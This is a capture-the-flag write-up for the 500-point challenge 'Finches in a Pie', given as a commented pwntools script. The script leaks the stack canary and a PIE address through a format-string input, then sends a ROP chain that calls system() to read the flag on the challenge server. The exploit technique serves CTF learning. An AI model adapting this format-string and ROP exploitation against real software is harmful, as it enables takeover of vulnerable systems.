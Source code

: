 # Finches in a Pie

### Writeup by Sai, 500 points

`There's a service at [...], exploit it to get the flag.`

**NOTE:** This writeup is in the form of a commented Python script which was used in order to exploit the service remotely. 

```python
#!/usr/bin/env python3
from pwn import *
from sys import argv
import re

REMOTE = 0
if len(argv) > 1:
    if 'r' in argv[1]:
        REMOTE = 1

context.terminal = ['tmux', 'splitw']
exe = './fiap'
elf = ELF(exe)
host, port = "88.198.219.20",41133
proc = remote(host, port) if REMOTE else process(exe)

if len(argv) > 1:
    if 'd' in argv[1]:
        DEBUG = 1
        gdb.attach(proc, '''
b *main
b *say_hi+197
c
''')

# Exploit
log.info(" !!!! Run this multiple times, until stack is correctly alligned !!!!")
leaked_pie_off = 0x128f
system_off = elf.plt['system']
cat_flag_off = 0x2008
leak = "%11$p|%3$p"

# Stage 1 - Leak a pie address, leak canary
proc.recv()
proc.sendline(leak)
data = proc.recv()
# Calculate the pie base 
r = re.match(b"Thank you, (.*)\|(.*)!",data)
canary, pie = map(lambda x: int(x,16), r.groups())
pie -= leaked_pie_off

log.info("Canary:   0x%x" % canary)
log.info("PIE BASE: 0x%x" % pie)

# Calculate system and other pie offsets
system = pie + system_off
cat_flag = pie + cat_flag_off

# Stage 2 - Rop chain to call system, with ebx as the start of GOT entries
# This is because binary does pop ebx
payload  = b"a"*25
payload += p32(canary)
payload += p32(pie + 0x4000)
payload += p32(0xdeadbeef)*2
payload += p32(system)
payload += p32(0xdeadbeef)
payload += p32(cat_flag)
log.info("Payload: %s" % payload.hex())

proc.sendline(payload)

proc.interactive()
```

